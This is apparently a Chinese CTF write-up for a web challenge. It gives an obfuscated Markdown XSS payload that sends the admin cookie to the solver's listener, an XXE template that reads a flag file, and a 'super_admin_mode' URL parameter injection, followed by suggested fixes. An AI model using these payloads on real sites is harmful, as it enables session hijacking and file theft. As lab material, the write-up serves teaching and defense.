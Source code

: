 # xxxxx

## 解题过程

### 1、注册账号进入用户界面

![主界面](主界面.png)

### 2、进入工单记录，提交 Markdown XSS

```markdown
![dsa](x"onerror=eval(atob('Yj1kb2N1bWVudC5jb29raWU7YT0iPGltZyBzcmM9aHR0cDovL2xvY2FsaG9zdDo4MjM0LyIrYnRvYShiKSsiPiI7ZG9jdW1lbnQud3JpdGUoYSk7'))%")
```

该 payload 是弹到本地8234端口

### 3、在本地监听8234端口，得到管理员cookie

![cookie](cookie.png)

### 4、利用得到的管理员cookie登陆管理员界面，进入短信设置

![短信](短信.png)

### 5、打开请求手机验证，修改模板为

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///tmp/flag" >
]>
<root>
    <tel>{tel}</tel>
    <text>【VYG乐购】您的验证码为： {code} &xxe;</text>
</root>
```

### 6、以管理员身份去实名认证

![认证](认证.png)
点击发短信

获得flag
![flag](flag.png)

修复点：

- `Ticket.py里TicketCreateHandler.post`，使用更强的过滤（如先md再bleach），不能直接禁用Markdown
- 修复SMS服务器上的XXE注入，关闭实体解析，不能直接删除发短信功能
- （这个漏洞应该都会修…………）



## 解法2 - Python修饰器参数注入

（专门为fixit环节设计）

访问 `http://127.0.0.1:8233/user/2?super_admin_mode=1` 可得管理员flag

![flag2](flag2.png)

原理：

出问题的函数集中在`view/tools.py`，这里存放了常用的辅助函数。

template_kwargs_importer用于合并参数字典
![](tools_1.png)

![](tools_2.png)

import_args用于直接将表单导入到函数参数表，方便处理，例如：

![](import_args.png)

RequestHandler.render被修改，用于向模板系统引入常用变量（比如区分管理员模式）
![](render.png)

render里面`**template_kwargs_importer(modes,kwargs)` 由于合并次序问题，当kwargs有super_admin_mode或customer_service_mode时，会将真正的值覆盖掉，而敏感信息显示与否是交予模板控制的，当以后门的方式加入上述参数，便可以对应权限查看用户敏感信息，造成隐私泄露。



灵感来源： https://blog.csdn.net/cc7756789w/article/details/46635383

修复事项：

- 不能屏蔽userinfo（本来是想由于显示和用户信息界面的，没时间写……）
- 不能修改自带Flag的用户信息（用户隐私都泄露了还不算漏洞么……）